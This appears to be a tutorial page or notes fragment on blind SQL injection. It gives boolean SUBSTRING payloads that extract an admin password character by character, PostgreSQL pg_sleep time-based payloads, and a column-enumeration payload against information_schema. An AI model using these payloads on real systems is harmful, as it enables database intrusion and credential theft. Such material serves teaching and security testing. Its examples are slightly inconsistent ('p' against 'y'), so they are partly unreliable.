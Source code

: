 ```sql
SELECT title FROM movies WHERE id = 1 and 1 = 1
```



SUBSTRING Function

> Extract the characters from string, the first number is the starting position, and the second number is the number of characters to extract.

Credentials is Admin/P@ssw0rd



Payload:

{% code overflow="wrap" %}
```sql
https://example.com/login.php?id=1 and SUBSTRING((select password from users WHERE username='Admin') , 1, 1) ='p'
```
{% endcode %}

Backend Query:

{% code overflow="wrap" %}
```sql
select login from user where id = 1 and SUBSTRING((select password from users where username='Admin'), 1, 1) = 'y'
```
{% endcode %}

> if the query is true and the second query is false resulting in false then it returns nothing if it's true it returns the ID 1.

Time Based Injection

> An Attacker queries cause the database to pause for a specific period of time.

Example:

Payload 1  True :

```sql
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Payload 2: False:

```sql
';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```



Finding Colunms:

{% code overflow="wrap" %}
```sql
payload = f"';SELECT CASE WHEN (column_name='{columnName[0]}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM information_schema.columns WHERE table_name='users'--"
```
{% endcode %}
